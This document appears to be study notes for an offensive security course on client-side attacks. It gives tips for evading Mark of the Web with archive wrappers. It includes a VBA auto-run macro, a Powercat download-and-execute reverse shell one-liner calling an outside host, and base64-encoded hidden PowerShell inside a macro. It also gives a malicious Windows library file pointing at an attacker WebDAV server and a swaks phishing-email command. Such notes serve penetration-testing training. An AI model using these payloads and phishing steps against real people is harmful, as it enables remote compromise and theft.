 ```yaml
---
layout: blank
pagetitle: Client-side Attacks
---
```


### Information Gathering

- **Metadata**
	- Examining metadata of company-created PDFs can be a good source of information
- theHarvester - searches for emails given a domain -d
- **Client Fingerprinting**
	- Canarytokens - tool that can fingerprint a computer from a link
		- This token grabs browser info, IP address, and OS info

### Attacking MS Office

- **MS Office Attack**
	- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
	- Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
	- Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- **MS Office Macros**
	- To make macros: View -> Macros
	- Basic macro code that opens powershell:
	
```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```

- Powercat
	- Creates reverse shells, but detected by defender
	- Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`
		- This is just grabbing a hosted powershell script
		- Powercat: 
	- Can be passed to the macro by encoding it in chunks of 50 base64 characters:
		- `Dim Str as String`
		- `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
		- `Str = Str + {base64}"`
		- `CreateObject("Wscript.Shell").Run Str`

### Abusing Windows Library Files
- Windows library files are less well-known and can be equally effective
- Executing .Library-ms file into executing .lnk file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`